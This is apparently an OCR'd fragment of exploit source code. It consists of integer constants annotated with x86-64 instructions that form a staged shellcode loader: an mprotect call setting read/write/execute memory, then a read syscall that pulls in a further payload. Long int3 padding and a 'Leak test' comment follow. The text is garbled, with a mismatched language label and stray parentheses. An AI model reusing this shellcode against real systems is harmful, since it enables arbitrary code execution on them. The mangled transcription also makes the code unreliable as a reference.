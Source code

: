 ```python
        // shl eax,1
        // push rax; pop rsi
        652992721 652959312
        // shl eax,1
        // shl eax,1
        652992721 652992721
        // shl eax,1
        // shl eax,1
        652992721 652992721
        // shl eax,1
        // shl eax,1
        652992721 652992721
        // shl eax,1
        // push rax; pop rdi
        652992721 652959568
        // xor eax,eax
        // mov al,10
        652984369 652937904
        // xor edx,edx
        // mov dl,7
        652988977 652937138
        // syscall
        // push rsi; pop rdx
        652936463 652958294
        // push rcx; pop rsi
        // xor edi,edi
        652959313 653000497
        // syscall
        652936463 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
        3435973836 3435973836
    )
    // Leak test, Ctr(1, N=2, 1049301)
    (* 1945917207 3591923955)
```